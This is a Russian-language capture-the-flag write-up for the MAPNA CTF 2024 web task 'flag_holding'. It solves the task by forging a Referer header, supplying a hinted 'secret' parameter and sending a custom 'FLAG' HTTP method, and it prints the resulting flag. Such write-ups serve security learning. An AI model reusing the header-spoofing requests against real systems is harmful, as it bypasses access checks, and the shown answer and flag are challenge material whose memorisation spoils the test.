



# MAPNA_CTF_2024 - web - flag_holding


# Introduction




# Solve


Сказано, что мы перешли на сайт не с страницы
Измненим наш запрос к сайту: (Добавили **Referer**) | Referer - заголовок, указывающий с какой страницы вы перешли

```
GET / HTTP/1.1
Host: 18.184.219.56:8080
Referer: http://flagland.internal/
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```




Нужно определить секрет. Либо нужно заново добавить какой-то заголовок, либо нужно добавить параметр в URL т.к. у нас **GET** запрос.
Я пробовал добавлять заголовки: **Flag**, **X-Secret** и прочие. Не получилось.

Потом же я добавил параметр в url **secret=1**. Успех есть!



В коде страницы:

```
Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->	

```

Ставим **secret=HTTP**

Получаем:

```
Sorry we don't have "GET" here but we might have other things like "FLAG".
```

Давайте поменяем метод **GET** на **FLAG**

Итоговый запрос:

```
FLAG /?secret=HTTP HTTP/1.1
Host: 18.184.219.56:8080
Referer: http://flagland.internal/
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Получаем флаг : `MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}` 


# Spoiler

Меняем запрос, параметры и заголовки
